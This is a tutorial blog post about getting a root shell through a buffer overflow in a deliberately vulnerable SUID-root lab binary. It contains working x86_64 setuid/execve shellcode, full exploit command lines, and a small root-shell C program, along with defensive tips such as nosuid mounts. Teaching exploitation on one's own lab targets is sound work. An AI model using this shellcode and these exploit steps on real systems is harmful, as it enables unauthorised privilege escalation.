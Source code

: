 ```yaml
---
layout: post
title: "Buffer overflow - getting a root shell"
date: 2020-01-02
tags: [security, linux, programming, vulnerabilities]
---
```


The vulnerable program from the previous article spawned a shell when we exploited it, but the shell did not get us any special permissions. That's to be expected, as the vulnerable program ran with normal user privileges.

There are multiple ways to go from normal user privilege to super user privilege, and we'll look more at this later, but for now we'll focus on SUID binaries.

## SUID binaries

When root is the owner of a file, and the SUID/setuid bit is set, the program runs (when executed by a normal user) with the highest privlege.

To turn `bo_vuln1` into a SUID root binary, we set root as the owner, and set the SUID bit:

```bash
$ sudo chown root bo_vuln1
$ sudo chmod u+s  bo_vuln1
$ ls -l bo_vuln1
-rwsrwxr-x. 1 root user 19552 Jul 22 17:19 bo_vuln1
```

When we execute the above program, we run it with using our *real* user ID (the user we are logged in as), but the program runs with root as its *effective* user ID.

> The SUID bit makes a program run with the *owner's* privileges. It is displayed as "s" in the file permissions (e.g. `ls -l` output).

## Prevent privilege drop in bash

Running the same exploit as earlier, on the now SUID root `bo_vuln1`, we still get a shell with no special privileges:

```bash
$ env - PWD=$PWD SHLVL=0 $PWD/bo_vuln1 `python -c 'print 30 * "\x90" + "\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" + 17 * "a" + 8 * "b" + "\x38\xec\xff\xff\xff\x7f"'`
sh-4.4$
```

This happens because bash (and most other modern shells) will set the effective user ID to the real user ID unless we use the `-p`  option, i.e. the root privilege is *dropped*.

> The `-p` option in bash is the same as `-o privileged`.

We can see that this is true by calling `execve` to launch a shell (which is the method used by our shellcode) in a small suid root program:

```c
/*
 * rootsh.c
 * gcc rootsh.c -o rootsh -std=c99
 */

#include <unistd.h>

int main()
{
    execve("/bin/sh", (char *[]){"/bin/sh", "-p", NULL}, NULL);
}
```

After compiling, set root as owner, and set the setuid bit:

```
$ sudo chown root rootsh
[sudo] password for <user>:
$ sudo chmod u+s rootsh
$ ls -l rootsh
-rwsrwxr-x. 1 root user 18288 Aug  8 21:12 rootsh
```

When the program is executed by a normal user, it spawns a root shell:

```
$ ./rootsh
sh-4.4# whoami
root
sh-4.4#
```

> Delete the file or remove the setuid bit by using `chmod -s <FILE>`. Don't leave vulnerable programs with a SUID bit, it's probably smart the create a "superuser" or similar *normal* user to use as the owner of a SUID file for educational purposes.

On 32-bit systems "/bin/sh -p" shellcode is easy to create since arguments to functions are passed on the stack, but on 64-bit it's difficult since registers are used to pass arguments (the string with the "-p" option is too long for a register).

> We'll look more at the challenges of writing shellcode in a later post.

An alternative to using the `-p` option is to use a shellcode which first runs `setuid()` to set the user identity to uid 0 (root), then execute a shell. Let's grab a shellcode from shell-storm.org.

> I've chosen the 48 byte Linux x86_64 `setuid(0) + execve(/bin/sh)` by xi4oyu, available at http://shell-storm.org/shellcode/files/shellcode-77.php. The author did not zero out `rax` before moving the system call number for `execve` into the lower 8 bits of the register, so the call to `setuid` could fail. I've prefixed three bytes in the shellcode below that zeroes out `rax`, making the shellcode 51 bytes.

The bytes of the (fixed) shellcode are as follows:

```
\x48\x31\xc0\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05
```

`bo_vuln1` is still set with root as owner and with the SUID bit. Let's run the shellcode (note that the NOP sled is decreased since the shellcode is longer):

```bash
$ env - PWD=$PWD SHLVL=0 $PWD/bo_vuln1 `python -c 'print 12 * "\x90" + "\x48\x31\xc0\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05" + 17 * "a" + 8 * "b" + "\x38\xec\xff\xff\xff\x7f"'`
sh-4.4# echo $EUID
0
sh-4.4# whoami
root
sh-4.4#
```

> Filesystems mounted with the `nosuid` mount option in (see the file `/proc/mounts`) will ignore the SUID or SGID bit, making this type of privilege escalation impossible.

